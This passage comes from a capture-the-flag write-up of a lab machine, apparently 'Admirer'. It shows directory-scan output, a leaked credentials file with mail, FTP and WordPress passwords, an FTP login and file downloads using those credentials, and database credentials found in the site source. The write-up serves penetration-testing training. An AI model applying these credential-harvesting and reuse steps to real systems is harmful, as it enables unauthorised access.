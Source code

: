 ```
/.htuser              (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
/.htc                 (Status: 403) [Size: 277]
/.htaccess.old        (Status: 403) [Size: 277]
/.htacess             (Status: 403) [Size: 277]
```
we can find a credentials.txt file and a contacts.txt file. Credentials.txt contains credentials to varius services:  
```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```
since we initially discovered an ftp service, let's try this credentials against this service and see if we can login:  
```
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
now we can scan the ftp chroot directory and download all the files for further offline analysis.  
```
ftp> get dump.sql
local: dump.sql remote: dump.sql
229 Entering Extended Passive Mode (|||7567|)
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
100% |************************************************************************************************************************************************************************************************|  3405      913.51 KiB/s    00:00 ETA
226 Transfer complete.
3405 bytes received in 00:00 (83.33 KiB/s)
ftp> get html.tar.gz
local: html.tar.gz remote: html.tar.gz
229 Entering Extended Passive Mode (|||33959|)
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
100% |************************************************************************************************************************************************************************************************|  5147 KiB    1.42 MiB/s    00:00 ETA
226 Transfer complete.
5270987 bytes received in 00:03 (1.40 MiB/s)
ftp> ^D
221 Goodbye.
```
if we open the index.php file in html.tar.gz file we can see the following creds:  
```
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
```
unfortunately these credentials does not lead to anywhere, so let's keep enumerating.
Inside the  utility-scripts folder, into db_admin.php file, we can see other credentials.  